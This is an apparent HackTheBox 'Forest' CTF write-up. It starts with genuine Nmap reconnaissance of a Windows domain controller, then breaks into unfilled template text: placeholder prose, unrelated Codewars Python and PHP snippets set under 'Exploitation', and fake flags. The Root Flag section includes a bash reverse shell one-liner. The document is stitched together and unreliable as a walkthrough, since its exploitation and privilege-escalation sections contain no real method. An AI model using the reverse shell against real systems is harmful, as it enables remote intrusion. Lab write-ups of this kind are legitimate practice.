

# Forest

## Reconnaissance
We begin our reconnaissance by running an Nmap scan checking default scripts and testing for vulnerabilities.

```console
┌─[kimkhuongduy@drgon]─[~/Documents/Github/write-up/HackTheBox-Forest]
└──╼ $sudo nmap -sS -Pn -p- --min-rate 5000 -o nmap_alltcp.txt 10.10.10.161
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-24 12:24 EDT
Warning: 10.10.10.161 giving up on port because retransmission cap hit (10).
Nmap scan report for htb.local (10.10.10.161)
Host is up (0.33s latency).
Not shown: 65212 closed tcp ports (reset), 299 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49671/tcp open  unknown
49676/tcp open  unknown
49677/tcp open  unknown
49684/tcp open  unknown
49703/tcp open  unknown
49929/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 581.13 seconds

┌─[kimkhuongduy@drgon]─[~/Documents/Github/write-up/HackTheBox-Forest]
└──╼ $sudo nmap -sC -sV -Pn -O -p 53,88,135,139,389,445,464,593,636,3268,3269,5985,9389,47001,49664,49665,49666,49667,49671,49676,49677,49684,49703,49929 -o nmap_basic.txt 10.10.10.161
[sudo] password for kimkhuongduy: 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-24 12:45 EDT
Nmap scan report for htb.local (10.10.10.161)
Host is up (0.25s latency).

PORT      STATE SERVICE      VERSION
53/tcp    open  domain       Simple DNS Plus
88/tcp    open  kerberos-sec Microsoft Windows Kerberos (server time: 2022-04-24 16:52:47Z)
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp   open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf       .NET Message Framing
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49671/tcp open  msrpc        Microsoft Windows RPC
49676/tcp open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
49677/tcp open  msrpc        Microsoft Windows RPC
49684/tcp open  msrpc        Microsoft Windows RPC
49703/tcp open  msrpc        Microsoft Windows RPC
49929/tcp open  msrpc        Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Microsoft Windows Server 2016 build 10586 - 14393 (95%), Microsoft Windows 10 1507 - 1607 (93%), Microsoft Windows Server 2016 (93%), Microsoft Windows 7, Windows Server 2012, or Windows 8.1 Update 1 (93%), Microsoft Windows Vista SP1 (93%), Microsoft Windows 10 (92%), Microsoft Windows 10 1507 (92%), Microsoft Windows 10 1511 (92%), Microsoft Windows Server 2012 (92%), Microsoft Windows Server 2012 R2 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: FOREST; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: FOREST
|   NetBIOS computer name: FOREST\x00
|   Domain name: htb.local
|   Forest name: htb.local
|   FQDN: FOREST.htb.local
|_  System time: 2022-04-24T09:53:50-07:00
|_clock-skew: mean: 2h26m50s, deviation: 4h02m33s, median: 6m47s
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2022-04-24T16:53:49
|_  start_date: 2022-04-24T16:25:29

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 89.26 seconds

```
In the nmap output we have a lot information. For the moment keep in mind that machine is leaked the dns name: **htb.local**. So I put in */etc/hosts* the name of forest.htb.local.

Let’s make some mental notes about the scan results:
* Port 53, 88 is open now, looks like this is a Domain Controller.
* The nmap scan leaks the domain and hostname: **htb.local** and **FOREST.htb.local**. Similarly, the SMB OS nmap scan leaks the operating system: Windows Server 2016 Standard 14393.
* Port 389 is running LDAP. We’ll need to query it for any useful information. Same goes for SMB.
* Port 5985 opens, which means if I can find credentials for a user through SMB or LDAP, I might be able to get a an get a shell over WinRM.

##Enumeration

###LDAP


Look  here's an image of my website, this is how you format an image.


\ **Figure 1:** My Website


\ **Figure 2:** Github Profile

Maybe we want to show some python code too, to let's take a look at a snipped from [codewars](https://www.codewars.com) to format time as human readable.

```python
def make_readable(seconds):        

    hours = seconds / 60**2
    minutes = seconds/60 - hours*60
    seconds = seconds - hours*(60**2) - minutes*60

    return '%02d:%02d:%02d' % (hours, minutes, seconds)
```


# Exploitation  

In order to gain our initial foothold we need to blablablabla. Here's another code snippet just for fun.

```php
function sqInRect($lng, $wdth) {

    if($lng == $wdth) {
      return null;
    }

    $squares = array();

    while($lng*$wdth >= 1) {
      if($lng>$wdth) {
        $base = $wdth;
        $lng = $lng - $base;
      }
      else {
        $base = $lng;
        $wdth = $wdth - $base;
      }
      array_push($squares, $base);
    }
    return $squares;
}
```
Above is the php code for the **Rectangle into Squares** kata solution from codewars.


## User Flag

In order to get the user flag, we simply need to use `cat`, because this is a template and not a real writeup!

```
x@wartop:~$ cat user.txt
6u6baafnd3d54fc3b47squhp4e2bhk67
```

## Root Flag

The privilege escalation for this box was not hard, because this is an example and I've got sudo password. Here's some code to call a reverse shell `bash -i >& /dev/tcp/127.0.0.1/4444 0>&1`.


\ **Figure 3:** root.txt v5gw5zkh8rr3vmye7p4ka


# Conclusion
In the conclusion sections I like to write a little bit about how the box seemed to me overall, where I struggled, and what I learned.

# References
1. [https://ryankozak.com/how-i-do-my-ctf-writeups/](https://ryankozak.com/how-i-do-my-ctf-writeups/)
2. [https://github.com/Wandmalfarbe/pandoc-latex-template](https://github.com/Wandmalfarbe/pandoc-latex-template)
3. [https://hackthebox.eu](https://hackthebox.eu)
4. [https://forum.hackthebox.eu](https://forum.hackthebox.eu)
